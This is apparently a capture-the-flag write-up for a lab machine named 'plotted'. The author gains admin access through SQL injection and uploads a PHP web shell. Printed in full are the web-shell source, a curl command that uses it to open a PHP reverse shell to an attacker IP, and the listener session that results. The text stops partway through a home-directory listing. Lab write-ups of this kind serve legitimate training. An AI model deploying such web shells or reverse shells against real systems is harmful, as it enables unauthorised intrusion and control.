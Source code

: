 ![image](https://user-images.githubusercontent.com/6504854/196204530-b36d914c-226e-4e4f-95c6-982721e6b8f9.png)

![image](https://user-images.githubusercontent.com/6504854/196204903-8e34163f-2219-47f0-98bc-18e62e16c7bc.png)

![image](https://user-images.githubusercontent.com/6504854/196205429-61b22a90-36ca-4871-80fa-2178e62ddacc.png)

🚩 admin:admin123 jsmith:jsmith123 is not valid credential. I couldn't login 😞

![image](https://user-images.githubusercontent.com/6504854/196206509-700ac403-3d62-4b66-b65d-b667d777a2b8.png)

![image](https://user-images.githubusercontent.com/6504854/196206682-3c9d1dbc-a903-4c7e-a2ce-76813c4d7130.png)

🚩 I logined as admin via just simple SQLi.

![image](https://user-images.githubusercontent.com/6504854/196209509-36726e53-4b76-4454-8a4a-9af95ebe5bf7.png)

🚩 I tried to upload pentestermonkey revers-shell as usual,but it couldn't work.

![image](https://user-images.githubusercontent.com/6504854/196210408-75bfd31a-a6ef-4f5f-9d3c-d8e5c505e7c5.png)

🚩 cmd.php is web shell.
```
<?php
    if(isset($_GET['cmd']))
    {
        echo($_GET['cmd']);
        system($_GET['cmd']);
    }
?>
```

![image](https://user-images.githubusercontent.com/6504854/196213263-0bccb1ac-8021-4149-aca9-a340f4958a09.png)

```
curl 'http://10.10.192.17:445/management/uploads/1666018260_cmd.php?cmd=php%20-r%20%27$sock=fsockopen(%2210.4.0.111%22,4444);exec(%22sh%20%3C%263%20%3E%263%202%3E%263%22);%27'
```

🚩 OK!

## Flag

```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.4.0.111] from (UNKNOWN) [10.10.192.17] 42966
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")';

www-data@plotted:/var/www/html/445/management/uploads$ cd /home
cd /home
www-data@plotted:/home$ ls
ls
plot_admin  ubuntu
www-data@plotted:/home$ cd plot*
cd plot*
www-data@plotted:/home/plot_admin$ ls -la
ls -la
total 32
drwxr-xr-x  4 plot_admin plot_admin 4096 Oct 28  2021 .
drwxr-xr-x  4 root       root       4096 Oct 28  2021 ..
lrwxrwxrwx  1 root       root          9 Oct 28  2021 .bash_history -> /dev/null
-rw-r--r--  1 plot_admin plot_admin  220 Oct 28  2021 .bash_logout                            
-rw-r--r--  1 plot_admin plot_admin 3771 Oct 28  2021 .bashrc                                 
```